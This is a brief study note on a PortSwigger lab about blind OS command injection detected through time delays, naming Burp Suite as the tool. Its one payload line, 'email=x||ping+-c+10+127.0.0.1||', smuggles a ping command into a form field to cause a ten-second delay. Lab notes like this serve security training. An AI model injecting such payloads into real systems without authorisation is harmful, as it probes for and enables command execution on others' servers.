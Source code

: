 # Blind OS command injection with time delays

Source: Portswigger
Tools: Burpsuite
Technique: Blind, OS Command Injection
Fields: Web

- email parameter’s value → email=x||ping+-c+10+127.0.0.1||